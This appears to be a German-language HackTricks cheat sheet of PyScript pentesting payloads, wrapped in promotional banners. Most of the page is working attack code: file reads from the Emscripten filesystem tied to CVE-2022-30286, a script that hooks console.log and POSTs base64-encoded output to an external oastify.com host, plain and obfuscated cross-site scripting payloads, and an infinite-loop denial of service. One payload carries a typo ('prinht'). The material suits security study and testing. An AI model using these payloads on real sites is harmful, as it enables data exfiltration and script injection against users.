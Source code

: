 # Pyscript

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositories senden.

</details>

## PyScript Pentesting Guide

PyScript ist ein neues Framework, das entwickelt wurde, um Python in HTML zu integrieren, sodass es zusammen mit HTML verwendet werden kann. In diesem Spickzettel finden Sie Informationen zur Verwendung von PyScript für Ihre Penetrationstest-Zwecke.

### Dumping / Abrufen von Dateien aus dem Emscripten-Virtual-Memory-Dateisystem:

`CVE-ID: CVE-2022-30286`\
\
Code:
```html
<py-script>
with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin:
out = fin.read()
print(out)
</py-script>
```
### [OOB-Datenexfiltration des Emscripten-Virtual-Memory-Dateisystems (Konsolenüberwachung)](https://github.com/s/jcd3T19P0M8QRnU1KRDk/\~/changes/Wn2j4r8jnHsV8mBiqPk5/blogs/the-art-of-vulnerability-chaining-pyscript)

`CVE-ID: CVE-2022-30286`\
\
Code:
```html
<py-script>
x = "CyberGuy"
if x == "CyberGuy":
with open('/lib/python3.10/asyncio/tasks.py') as output:
contents = output.read()
print(contents)
print('<script>console.pylog = console.log; console.logs = []; console.log = function(){     console.logs.push(Array.from(arguments));     console.pylog.apply(console, arguments);fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {method: "POST",headers: {"Content-Type": "text/plain;charset=utf-8"},body: JSON.stringify({"content": btoa(console.logs)})});}</script>')
</py-script>
```
### Cross-Site Scripting (gewöhnlich)

Code:
```python
<py-script>
print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```
Ergebnis:

![](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

### Cross-Site Scripting (Python Obfuscated)

Code:
```python
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```
### Cross-Site Scripting (JavaScript-Verschleierung)

Code:
```html
<py-script>
prinht("<script>var _0x3675bf=_0x5cf5;function _0x5cf5(_0xced4e9,_0x1ae724){var _0x599cad=_0x599c();return _0x5cf5=function(_0x5cf5d2,_0x6f919d){_0x5cf5d2=_0x5cf5d2-0x94;var _0x14caa7=_0x599cad[_0x5cf5d2];return _0x14caa7;},_0x5cf5(_0xced4e9,_0x1ae724);}(function(_0x5ad362,_0x98a567){var _0x459bc5=_0x5cf5,_0x454121=_0x5ad362();while(!![]){try{var _0x168170=-parseInt(_0x459bc5(0x9e))/0x1*(parseInt(_0x459bc5(0x95))/0x2)+parseInt(_0x459bc5(0x97))/0x3*(-parseInt(_0x459bc5(0x9c))/0x4)+-parseInt(_0x459bc5(0x99))/0x5+-parseInt(_0x459bc5(0x9f))/0x6*(parseInt(_0x459bc5(0x9d))/0x7)+-parseInt(_0x459bc5(0x9b))/0x8*(-parseInt(_0x459bc5(0x9a))/0x9)+-parseInt(_0x459bc5(0x94))/0xa+parseInt(_0x459bc5(0x98))/0xb*(parseInt(_0x459bc5(0x96))/0xc);if(_0x168170===_0x98a567)break;else _0x454121['push'](_0x454121['shift']());}catch(_0x5baa73){_0x454121['push'](_0x454121['shift']());}}}(_0x599c,0x28895),prompt(document[_0x3675bf(0xa0)]));function _0x599c(){var _0x34a15f=['15170376Sgmhnu','589203pPKatg','11BaafMZ','445905MAsUXq','432bhVZQo','14792bfmdlY','4FKyEje','92890jvCozd','36031bizdfX','114QrRNWp','domain','3249220MUVofX','18cpppdr'];_0x599c=function(){return _0x34a15f;};return _0x599c();}</script>")
</py-script>
```
### DoS-Angriff (Endlosschleife)

Code:
```html
<py-script>
while True:
print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
</py-script>
```
Ergebnis:

![](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>
